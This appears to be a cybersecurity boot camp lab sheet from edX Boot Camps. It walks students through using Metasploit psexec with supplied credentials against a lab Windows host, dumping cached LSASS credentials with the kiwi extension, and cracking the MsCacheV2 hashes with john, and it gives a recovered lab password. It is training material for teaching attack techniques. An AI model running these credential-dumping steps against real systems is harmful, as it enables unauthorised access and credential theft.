




## Activity File: Credential Dumping

In this activity, you used the Metasploit `kiwi` extension to dump the credentials cached on the WIN10 machine.

### Instructions

1. Load the `psexec` module: `use exploit/windows/smb/psexec`

2. Set the following parameters:

	- `set RHOSTS 172.22.117.20`
	
	- `set SMBUSER tstark`
	
	- `set SMBPass Password!`
	
	- `set SMBDomain megacorpone`
	
	- `set LHOST 172.22.117.100`
	
3. Run the module with `run`.

4. In your Meterpreter session, load the `kiwi` extension.

     - `load kiwi`

     

5. Once a new extension is loaded into Metasploit, it will update the help menu. View the `kiwi` command options by calling the help menu in Meterpreter.

     - `?`

     

6. Dump all the cached credentials from LSASS using a `kiwi_cmd` command. 
	 
	 - `kiwi_cmd lsadump::cache`
	 
	 

7. In the output, the hashes are displayed after the "MsCacheV2 field." MsCacheV2 is just the format of the hash. Save the hashes in the format `username:password`.
	
	-	Using `john`, attempt to crack the password. Your `john` command should use the flag `--format=mscash2`, e.g., `john --format=mscash2 hashes.txt`.

	

8. You should now have the plain-text password to the new account bbanner.

	- 	`bbanner:Winter2021`
                                                                                                                               
---
&copy; 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.

